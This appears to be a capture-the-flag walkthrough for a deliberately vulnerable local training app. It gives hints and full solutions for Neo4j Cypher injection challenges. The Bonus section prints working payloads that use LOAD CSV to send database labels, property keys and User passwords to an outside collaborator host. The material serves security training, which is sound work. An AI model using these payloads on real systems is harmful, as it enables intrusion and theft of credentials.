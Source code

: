 ## Neo4j 

In part, this application tests your knowledge of Neo4j and Cypher Query Language. Below you will find hints and steps for full walkthroughs. 

### EASY

<details>
  <summary>Hints</summary>

  1. Can you modify the request before it gets sent to server?
  2. Can you modify the request so the application displays an error with the Cypher query? 
  3. Can you modify the request to include the Cypher equivalent to sql injection's ```x' or 'x'='x```?
</details>

<details>
  <summary>Walkthrough</summary>

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  3. Edit ```person=Tom+Hanks``` to ```person=xxxxx"``` in the request body.
  4. Forward the request.
  5. Back in your browser, observe the query in the error message.
  6. Send another request and intercept it.
  7. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks" or person.name=~".*```.
  8. Forward the request.
  9. Back in your browser look for the FLAGs.
</details>

### MEDIUM 

<details>
  <summary>Hints</summary>

  1. Modify the request so the application displays an error with the Cypher query. 
  2. The payload here depends on understanding Cypher Query Language as well as understanding how application code might rely on variable names used in the ```return`` portion of the query. 
</details>

<details>
  <summary>Walkthrough</summary>

  There are multiple ways to get the flags at this level, one of which does not require Cypher Injection; below is one that does, and requires some knowledge of Neo4j and Cypher Query Language.

  1. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  2. Select anything in the second dropdown.
  3. Using Burp or ZAP, intercept your request after clicking "go" on the app's Neo4j page.
  4. Edit ```person=Tom+Hanks``` to ```person=Tom+Hanks"``` in the request body.
  5. Forward the request.
  6. Back in your browser, observe the query in the error message.
  7. Send another request and intercept it.
  8. Edit the request: Change ```person=Tom+Hanks`` to ```person=Tom+Hanks"})-[role]-(movie) return person,role,movie//```.
  9. Create a text file containing the list of names from the select dropdown.
  10. Use Burp intruder to replace ```Tom+Hanks``` with the names from the file. 
  11. Find results in intruder that contain the text FLAG.
</details>

### HARD

<details>
  <summary>Hints</summary>

  1. There is no Cypher Injection attack at the Hard level 
  2. Burp Intruder and info you have gathered in the Easy and Meidum levels will help you at this level. 
</details>

<details>
  <summary>Walkthrough</summary>

  1. Turn Intercept off in Burp.
  2. Browse to the [Neo4j page](http://localhost:8084/app/?db=neo4j) of the app.
  3. Select anything in the second dropdown and click go.
  4. In Burp, find this request and send it to intruder.
  5. In intruder, select the value for ```person``` and the value for ```role``` as your attack vectors.
  6. Select Cluster Bomb as your Attack Type.
  7. Use the list of "persons" you used in Medium as the payload for ```person```.
  8. Use a list you've gathered from the previous 2 steps as the payload for ```role```.
  9. Click ```start attack```.
  10. Search for ```FLAG`` in the results to find the 3 flags at this level.
</details>

### BONUS  

<details>
  <summary>Hints</summary>

  1. To get the BONUS flags, you will need either:
    * Your own webserver where you may monitor access logs 
    * [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client) 
  2. You will need to understand how to use [Neo4j's db.labels() and db.propertyKeys() procedures](https://Neo4j.com/docs/cypher-manual/current/clauses/call/) to map this database.
  3. You will need to understand how to use [Neo4j's LOAD CSV functionality](https://Neo4j.com/developer/guide-import-csv/) to cause Neo4j to make http requests.
  4. You will need to understand how to use the two together to [extract information from Neo4j](https://www.sidechannel.blog/en/the-cypher-injection-saga/).
</details>

<details>
  <summary>More Hints</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.

1. Set your challenge level to Medium
2. Get list of all labels in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database and look for something interesting

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Try variations of the following payload, replacing LABEL with an actual label and PROPERTY with an actual property from steps 1 & 2. This will tell you what properties go with what labels - if no error is thrown you have a property matched to a label.

```
person=Christian+Bale"})-[role]->(node:LABEL)+RETURN+person,role,node.PROPERTY&role=DIRECTED&search=go
```

For example, this should throw an error

```
person=Christian+Bale"})-[role]->(node:Person)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

And this should not throw an error, but you won't see the data for ```node.title``` because of the code that's printing data to the screen

```
person=Christian+Bale"})-[role]->(node:Movie)+RETURN+person,role,node.title&role=DIRECTED&search=go
```

5. Once you've decided what LABEL and PROPERTY you are interested in, use the following payload, foreach person in the database, replacing LABEL with the label and PROPERTY with the property and watch your collaborator space or your server access logs. 

```
person=Tom+Cruise"})-[role]->(node:LABEL)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.name%2b'/'%2bnode.PROPERTY+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

For example

```
person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```

6. Some of the flags may need to be further figured out.
</details>


<details>
  <summary>Exact steps to FLAGS</summary>

You need [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator-client), which is sadly only available with Burpsuite Pro, or your own webserver where you are able to see HTTP access requests. You could add a basic webserver container to this set up and use that server's IP address and access logs in place of Burp Collaborator.


1. Set your challenge level to Medium
2. Get a list of all labels in the database - you are looking for the ```User``` label.

```
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2blabel+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.labels()+YIELD+label+LOAD+CSV+FROM+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

3. Get list of all properties in the database - you are looking for the ```password``` label. 

```
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bpropertyKey+AS+r+return+person//&search=go
person=Christian+Bale"+CALL+db.propertyKeys()+YIELD+propertyKey+LOAD+CSV+from+'https://your.burpcollaboratorurl.com/'%2bpropertyKey+AS+r+return+person//&search=go
```

4. Use the following payloads to get the BONUS flags.

```
person=Tom+Tykwer"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Cruise"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go

person=Tom+Skerritt"})-[role]->(node:User)+LOAD+CSV+from+'https://tebgn3hmme2rnqefb660xa8raig84x.oastify.com/'%2bperson.title%2b'/'%2bnode.password+AS+r+return+person//&search=go//&role=DIRECTED&search=go
```
5. The BONUS^MEDIUM password is base64 encoded 3x. 
6. The BONUS^HARD password is encoded using Ceasar Cipher then converted to asciihex then base64 encoded.
</details>
